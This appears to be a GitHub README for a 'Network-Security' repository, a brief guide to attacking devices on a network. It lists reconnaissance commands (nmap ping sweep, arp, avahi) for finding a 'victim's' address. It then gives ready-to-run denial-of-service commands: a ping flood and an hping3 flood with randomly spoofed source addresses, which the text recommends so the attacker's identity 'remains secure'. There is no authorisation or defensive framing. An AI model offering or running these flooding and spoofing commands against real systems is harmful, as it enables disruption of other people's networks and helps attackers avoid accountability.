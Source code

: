 # Network-Security
## getting info about devices connected to your local network
to start an attack you should first get some basic information about your victim, like ip address.
my favorite command is the last one, but it requires the installation of avahi.
The first thing to get into network security is to learn how to use nmap. There is a tutorial in this repo for that.
we can use one or more of the following commands to get that info:
```
nmap -sP 192.168.1.0/24
arp -a
arp
avahi-discover
avahi-browse -rat
```
## ping flooding (DOS attack)
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource.
But it will also flood your pc with ping responses, so use this command only if you are sure that your pc has greater speed than the victim.
```
  ping -f -s 65500 ip(or website)
```

However, there are more sophisticated tools available at our disposal like Hping3.
using hping we can easily spoof our ips, so that your identity remains secure while doing the attacks.
after installing hping3, we can use the following commands:

```
  hping3 -S -P -U --flood -V --rand-source website(or ip)
```
## [nmap tutorial](nmap_tutorial.md)
## [sqlmap tutorial - sql injection](sqlmap.md)
